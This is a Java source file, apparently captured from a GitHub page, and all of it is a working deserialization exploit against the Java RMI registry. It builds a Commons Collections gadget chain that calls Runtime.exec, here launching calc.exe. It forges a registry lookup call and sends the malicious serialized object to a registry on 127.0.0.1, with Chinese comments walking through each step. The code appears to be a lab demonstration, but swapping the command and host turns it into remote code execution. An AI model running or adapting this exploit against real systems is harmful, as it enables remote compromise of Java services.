 ```java
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.rmi.server.RemoteRef;
import java.util.HashMap;

public class expLookup {
    public static void main(String[] args) throws Exception{
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transforms);
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(),new ConstantTransformer(null));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lingx5");
        HashMap<Object, Object> HashMap = new HashMap<>();
        HashMap.put(tiedMapEntry,"lingx5");
        Field factory = LazyMap.class.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);
        lazyMap.remove("lingx5");
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        constructor.newInstance(java.lang.annotation.Retention.class,HashMap);
        // 创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 获取super.ref registry_remote为RegistryImpl_Stub对象，直接父类是RemoteStub，而ref实在RemoteStub的父类RemoteObject中定义的
        Field ref = registry_remote.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
        ref.setAccessible(true);
        UnicastRef remoteRefe = (UnicastRef) ref.get(registry_remote);
        Field declaredField = registry_remote.getClass().getDeclaredFields()[0];
        declaredField.setAccessible(true);
        Operation[] operations = (Operation[]) declaredField.get(registry_remote);

        // 跟着lookup的逻辑，执行newCall方法，2代表lookup方法
        RemoteCall remoteCall = remoteRefe.newCall((RemoteObject) registry_remote, operations, 2, 4905912898345647071L);
        // 写入序列化的恶意代码
        ObjectOutput outputStream = remoteCall.getOutputStream();
        outputStream.writeObject(HashMap);
        remoteRefe.invoke(remoteCall);
    }
}
```
